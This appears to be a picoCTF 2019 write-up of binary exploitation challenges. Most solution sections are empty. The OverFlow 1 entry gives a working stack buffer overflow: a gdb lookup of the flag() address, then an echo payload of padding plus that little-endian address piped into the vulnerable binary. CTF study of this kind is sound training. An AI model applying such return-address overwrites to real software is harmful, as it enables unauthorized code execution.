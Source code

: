 # Binary Exploitation
## handy-shellcode - Points: 50
This [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/handy-shellcode) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/handy-shellcode.c).
- You might be able to find some good shellcode online.
#### Solutions
>
---
## practice-run-1 - Points: 50
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/practice-run-1) to receive a flag.
- How do you execute a program in a command line?
#### Solutions
> this must use the pico shell to solve.
> ```shell
> ./run_this
> ```
> and get flag.
---
## OverFlow 0 - Points: 100
This should be easy. Overflow the correct buffer in this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200.c).
- Find a way to trigger the flag to print
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
#### Solutions
> connect to pico shell.  
> accordion to [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200.c), the flag will be print when segmentaion fault.  
> overflow it by many character and get flag.
---
##OverFlow 1 - Points: 150
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%201)? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%201.c).
- Take control that return address
- Make sure your address is in Little Endian.
#### Solutions
> rewrite the return address.  
> try  
> ```shell
> $echo -n -e "\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0" | ./vuln
> ```
> and get "Woah, were jumping to 0x0 !"
> use gdb to find the flag() address.  
> ```shell
> $gdb ./OverFlow 1
> (gdb) disassemble flag
> ```
> the address of flag() is 0x080485e6  
> try the length of \x0, remember the address will be \xe6\x85\x04\x08.  
> ```shell
> $echo -n -e "\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\xe6\x85\x04\x08" | ./vuln
> ```
> and get the flag.
---
## OverFlow 2 - Points: 250
Now try overwriting arguments. Can you get the flag from this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%202)? You can find it in /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%202.c).
- GDB can print the stack after you send arguments
#### Solutions
> 
---
## Ghost_Diary - Points: 500
Try writing in this [ghost diary](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/ghostdiary). Its also found in /problems/ghost-diary_3_ef159a8a880a083c73a2bb724fc0bfcb on the shell server.
#### Solutions
>
